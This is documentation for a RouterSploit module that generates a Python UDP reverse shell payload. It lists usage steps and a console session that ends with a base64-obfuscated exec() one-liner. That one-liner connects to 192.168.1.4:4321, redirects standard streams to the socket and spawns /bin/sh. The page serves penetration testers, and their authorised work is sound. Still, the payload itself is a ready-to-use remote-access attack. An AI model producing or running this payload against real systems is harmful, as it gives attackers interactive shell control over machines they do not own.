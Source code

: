 ## Description

Module generates payload that creates interactive udp reverse shell by using python. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/python/reverse_udp`
  3. Do: `set lhost 192.168.1.4`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates python udp reverse shell payload

## Scenarios

```
rsf > use payloads/python/reverse_udp
rsf (Python Reverse UDP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse UDP) > set lport 4321
[+] lport => 4321
rsf (Python Reverse UDP) > run
[*] Running module...
[*] Generating payload
exec('aW1wb3J0IG9zCmltcG9ydCBwdHkKaW1wb3J0IHNvY2tldApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsIHNvY2tldC5TT0NLX0RHUkFNKQpzLmNvbm5lY3QoKCcxOTIuMTY4LjEuNCcsNDMyMSkpCm9zLmR1cDIocy5maWxlbm8oKSwgMCkKb3MuZHVwMihzLmZpbGVubygpLCAxKQpvcy5kdXAyKHMuZmlsZW5vKCksIDIpCnB0eS5zcGF3bignL2Jpbi9zaCcpOwpzLmNsb3NlKCkK'.decode('base64'))
```
